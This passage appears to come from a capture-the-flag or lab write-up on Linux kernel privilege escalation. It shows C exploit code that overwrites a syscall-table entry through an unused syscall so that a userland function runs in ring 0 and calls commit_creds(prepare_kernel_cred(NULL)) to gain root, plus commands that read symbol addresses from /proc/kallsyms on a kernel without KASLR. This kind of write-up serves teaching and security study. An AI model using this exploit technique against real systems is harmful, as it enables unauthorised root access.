```console
/tmp $ ./exp
[d] Before: 0x80060b04
[d] After: 0x41414141
```

Ha, so we can add our own syscall! What we want to do is to create our own function `userland_escalate` which will be executed in ring0 and which will escalate our privileges to root.

```c
#define SYS_CALL_TABLE 0x8000e348
#define NR_SYS_UNUSED 223
#define COMMIT_CREDS ((void*) 0x8003f56c)
#define PREPARE_KERNEL_CREDS ((void*) 0x8003f924)

typedef void* (*prepare_kernel_creds_func_t)(void* daemon);
typedef int (*commit_creds_func_t)(void *new);

#define prepare_kernel_creds_func(daemon) \
    (((prepare_kernel_creds_func_t) PREPARE_KERNEL_CREDS)(daemon))
#define commit_creds_func(new) \
    (((commit_creds_func_t)(COMMIT_CREDS))(new))

long userland_escalate() {
    commit_creds_func(prepare_kernel_creds_func(NULL));
    return 0;
}

uint32_t read_dword(void *addr)
{
    // same as above
    [...]
}

int main()
{
    uint32_t **syscall_table = (uint32_t **)SYS_CALL_TABLE;

    printf("[d] Before: %p\n", (void *)read_dword(&syscall_table[80]));
    syscall(NR_SYS_UNUSED, &userland_escalate, &syscall_table[80]);
    printf("[d] After: %p\n", (void *)read_dword(&syscall_table[80]));

    return 0;
}
```

The `commit_creds` and `prepare_kernel_creds` functions are standard kernel functions used by attackers to escalate their privileges. As there is no kaslr enabled in the system we can get their addresses from `/proc/kallsyms`:

```console
$ cat /proc/cmdline 
'root=/dev/ram rw console=ttyAMA0 rdinit=/sbin/init' ; no kaslr listed

$ cat /proc/kallsyms | grep commit_creds
8003f56c T commit_creds ; address of commit_creds function
8044548c r __ksymtab_commit_creds
8044ffc8 r __kstrtab_commit_creds

$ cat /proc/kallsyms | grep prepare_kernel_cred
8003f924 T prepare_kernel_cred ; address of prepare_kernel_cred function
80447f34 r __ksymtab_prepare_kernel_cred
8044ff8c r __kstrtab_prepare_kernel_cred
```
